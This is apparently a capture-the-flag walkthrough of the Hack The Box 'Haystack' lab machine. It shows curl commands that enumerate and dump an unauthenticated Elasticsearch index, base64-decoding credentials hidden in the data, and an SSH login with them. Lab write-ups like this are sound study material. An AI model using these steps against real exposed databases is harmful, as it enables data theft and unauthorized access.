

# 15 - Elastic Search


https://book.hacktricks.xyz/pentesting/9200-pentesting-elasticsearch

# Indices
```bash
┌─[user@parrot]─[10.10.14.14]─[~/htb/haystack]
└──╼ $ curl -s 'http://10.10.10.115:9200/_cat/indices'
green  open .kibana 6tjAYZrgQ5CwwR0g6VOoRg 1 0    1 0     4kb     4kb
yellow open quotes  ZG2D1IqkQNiNZmi2HRImnQ 5 1  253 0 262.7kb 262.7kb
yellow open bank    eSVpNfCfREyYoVigNWcrMw 5 1 1000 0 483.2kb 483.2kb
```

To start off, we can dump everything in quotes.

# Dump quotes
```bash
┌─[user@parrot]─[10.10.14.14]─[~/htb/haystack]                                                                                                                                                
└──╼ $ curl -s  'http://10.10.10.115:9200/quotes/_search?pretty=true&size=1000' | jq  '.hits .hits[] ._source .quote' > spanish.txt
```

The quotes are in Spanish. It could contain sensitive data.


# Google Translate



Save the translation as english.txt, may want to view the source because it takes some time to translate.

# Hint
```bash
┌─[user@parrot]─[10.10.14.14]─[~/htb/haystack]
└──╼ $ grep -i 'haystack' english.txt 
&quot;There&#39;s a needle in this haystack, you have to search for it&quot;
```

This is a hint that we are on the right track.

# Credentials
```bash
┌─[user@parrot]─[10.10.14.14]─[~/htb/haystack]
└──╼ $ grep -i 'password' english.txt 
&quot;I have to save the password for the machine: dXNlcjogc2VjdXJpdHkg&quot;
┌─[user@parrot]─[10.10.14.14]─[~/htb/haystack]
└──╼ $ grep -i 'key' english.txt 
&quot;With regard to the fauna of North America, this continent has a great diversity, in it there are more than 400 species of mammals, almost 1000 species of birds, more than 500 species of reptiles and amphibians and about 100 000 species of insects. Notable bears, eagles, turkeys, seals, American bison, wolves, snakes, among others.26 &quot;
&quot;The fauna of Central America has large numbers of mammals that are more common in Guatemala (230 species), Panama (229 species), Nicaragua (225 species), Costa Rica (211 species), El Salvador (210 species) and Honduras (207 species). Mainly there are deer, jaguars, pumas, hummingbirds, torogozes, quetzals (symbolic bird of Guatemala), buzzards, tapirs and macaws. The most common animals in Central America are Quetzal (Pharomachrus mocinno), Green frog (Agalychnis callidryas), Nine-banded armadillo (Dasypus novemcinctus), American crocodile (Crocodylus acutus), Black howler monkey (Alouatta palliata), jaguar, tapirus, anteater, harpy eagle (Harpya harpija), cougar and tapir. 26 27 28 &quot;
&quot;This key cannot be lost, I keep it here: cGFzczogc3BhbmlzaC5pcy5rZXk =&quot;
┌─[user@parrot]─[10.10.14.14]─[~/htb/haystack]
└──╼ $ echo -n dXNlcjogc2VjdXJpdHkg |base64 -d
user: security 
┌─[user@parrot]─[10.10.14.14]─[~/htb/haystack]
└──╼ $ echo -n cGFzczogc3BhbmlzaC5pcy5rZXk= |base64 -d
pass: spanish.is.key
```


Found some credentials:

* security:spanish.is.key

# SSH
```bash
┌─[user@parrot]─[10.10.14.14]─[~/htb/haystack]
└──╼ $ ssh -l security 10.10.10.115 
The authenticity of host '10.10.10.115 (10.10.10.115)' can't be established.
ECDSA key fingerprint is SHA256:ihn2fPA4jrn1hytN0y9Z3vKpIKuL4YYe3yuESD76JeA.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.115' (ECDSA) to the list of known hosts.
security@10.10.10.115's password: 
Last login: Wed Feb  6 20:53:59 2019 from 192.168.2.154
```